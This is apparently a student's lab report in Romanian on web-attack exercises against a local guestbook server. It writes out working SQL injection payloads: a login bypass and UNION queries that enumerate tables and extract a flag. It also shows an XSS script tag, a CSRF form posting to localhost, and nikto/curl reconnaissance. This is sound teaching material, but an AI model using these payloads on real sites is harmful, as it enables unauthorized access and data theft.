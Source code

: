 Student: Margineanu Vladut
Grupa: 341 C2

						Laborator 8

	Cerinta 1

 Serverul ruleaza direct un query. Cu urmatorul SQL injection (cu stringurile date la login):
'''
 SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1
'''
'''
 SELECT * FROM tabela WHERE username='' OR 1=1 -- ' AND PASSWORD=<passwd>
'''
Comment:  username este string care se evalueaza la true: 
	'''
	' ' OR 1=1 -- ' fac ca restul comenzii, pana la ' sa fie comentat
	'''

	Cerinta 2
	
'''
 SELECT col1, col2... FROM tablename WHERE name='' UNION (SELECT 1, 2, ...)  -- bruteforce the number of columns! '
'''

 1. Incercam sa ne logam cu:
 '''
  ' or 1 order by 1,2,3,4,5,6,7,8,9,10 -- x
 '''
 - se observa eroarea la coloana 5 => avem 4 coloane

 2. Ne logam cu ' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' -- x
 - se observa ca avem tabelele: entries, flags, users

 3. Aflam care e coloana cu flag-ul:
 ' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' -- x

 4. Selectam flagul din tabela.
 ' union select 1, 2, 3, flag from guestbook.flags -- x

 Se obtine flag-ul: SpeishFlag{th1sw4sSQL1nj3cti0n}!

	Cerinta 3

 Mesajele scrise in chenarul din server sunt interpretate ca HTML. 
 Orice script e bagat in HTML si executat. Asadar, mesajul contine:

 <script>
 alert("Arafat!");
 </script> 
 si genereaza un "dialog box" in care scrie "Arafat!"

	Cerinta 4

 Form al guestbook-ului:
<form method="post" action="/guestbook/post">
  <p>
    <div><label for="message">Message:</label></div>
    <textarea id="message" name="message" rows="3" cols="80"></textarea>
  </p>
  <p>
    <input type="submit" value="Send">
  </p>
</form>

 L-am refactorizat local:
<form method="post" action="http://localhost:8080/guestbook/post">
  <p>
    <label>Boss:</label>
    <input type="hidden" id="message" name="message" value="Voucher 2021">
  </p>
  <p>
    <input type="submit" value="Click Here!">
  </p>
</form>

	Cerinta 5
 - cu utilitarul nikto, am scanat server-ul si am gasit fisierul server.js. 
 - l-am descarcat cu comanda curl si l-am adaugat in arhiva

 




